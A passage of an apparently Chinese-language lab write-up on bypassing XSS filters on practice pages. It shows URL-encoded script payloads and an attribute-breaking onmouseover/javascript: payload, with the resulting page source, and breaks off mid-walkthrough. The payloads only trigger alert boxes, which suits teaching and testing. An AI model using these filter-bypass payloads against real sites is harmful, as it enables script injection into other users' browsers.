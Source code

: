 ### 特殊字符过滤

打开目标网页，老规矩，先构造最普通的xss攻击方式。

```
http://target_sys.com/xss/xss12.php?name=huan%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

页面没有任何变化，检查网页源码

```
我的名字是 huan<script>alert(\"xss\")</script>
```

发现页面中已存在相关代码示例，但是引号已经被做了过滤，导致代码执行失败。那如果我不输入带引号的内容呢？

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210822152848.png)

### `<`过滤

常规流程，查看源码。

```
<div class='main'>
我的名字是 huan
<form action="">
<input type='text' value='huan' name="name">
<input type="submit" value="提交"/>
</form>
</div>
```

构造原始攻击，并未生效

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210822155838.png)

查看源码发现`<`与`>`都被替换了，并且input框中的元素也发生了改变。

```
<div class='main'>
我的名字是 &lt;script&gt;alert('XSS')&lt;/script&gt;
<form action="">
<input type='text' value='<script>alert('XSS')</script>' name="name">
<input type="submit" value="提交"/>
```

那么这时候可以用**js伪协议**来尝试构造攻击

```
http://target_sys.com/xss/xss13.php?name=moon%27%20onmouseover=%27javascript:alert(%22xss%22)
```

乍一看浏览器并没有什么反应，再次查看源码

```
<div class='main'>
我的名字是 moon' onmouseover='javascript:alert(&quot;xss&quot;)
<form action="">
<input type='text' value='moon' onmouseover='javascript:alert("xss")' name="name">
```
